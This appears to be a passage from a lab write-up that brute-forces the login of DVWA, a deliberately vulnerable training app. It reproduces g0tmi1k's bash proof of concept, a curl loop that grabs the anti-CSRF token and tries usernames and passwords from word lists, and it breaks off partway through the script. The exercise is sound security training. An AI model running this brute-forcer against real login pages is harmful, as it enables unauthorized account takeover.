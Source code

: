 <img width="1084" height="455" alt="image" src="https://github.com/user-attachments/assets/95cbba7c-82ec-4979-af54-1826e176fafa" />

<br>
<br>
<p>

- waited for a loooooooooong time for patator execution ... FAIL ... FAIL ... FAIL<br>
- decided to use gotm1lk instead<br>    
- navigated to https://<coe>blog.g0tmi1k.com/dvwa/login/</code></p>

<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/51c62612-58e6-45b9-abf4-1564e0dfe08c"></p>

<p>

- <code>passwords.txt</code> is the Task File downloaded<br>
- <code>user.txt</code> is a file containing <code>admin</code></p>

<p align="center"><em>g0tmi1k´s <code>PoC</code></em></p>

```bash
#!/bin/bash
# Quick PoC template for HTTP POST form brute force, with anti-CRSF token
# Target: DVWA v1.10
#   Date: 2015-10-19
# Author: g0tmi1k ~ https://blog.g0tmi1k.com/
# Source: https://blog.g0tmi1k.com/dvwa/login/

## Variables
URL="http://10.201.107.100/login.php"
USER_LIST="user.txt"
PASS_LIST="passwords.txt"

## Value to look for in response (Whitelisting)
SUCCESS="Location: index.php"

## Anti CSRF token
CSRF="$( curl -s -c /tmp/dvwa.cookie "${URL}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2 )"
[[ "$?" -ne 0 ]] && echo -e '\n[!] Issue connecting! #1' && exit 1

## Counter
i=0

## Password loop
while read -r _PASS; do

  ## Username loop
  while read -r _USER; do

    ## Increase counter
    ((i=i+1))

#    ## Feedback for user
#    echo "[i] Try ${i}: ${_USER} // ${_PASS}"

    ## Connect to server
    #CSRF=$( curl -s -c /tmp/dvwa.cookie "${URL}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | awk -F "'" '{print $2}' )
    REQUEST="$( curl -s -i -b /tmp/dvwa.cookie --data "username=${_USER}&password=${_PASS}&user_token=${CSRF}&Login=Login" "${URL}/login.php" )"
    [[ $? -ne 0 ]] && echo -e '\n[!] Issue connecting! #2'

    ## Check response
    echo "${REQUEST}" | grep -q "${SUCCESS}"
    if [[ "$?" -eq 0 ]]; then
      ## Success!
```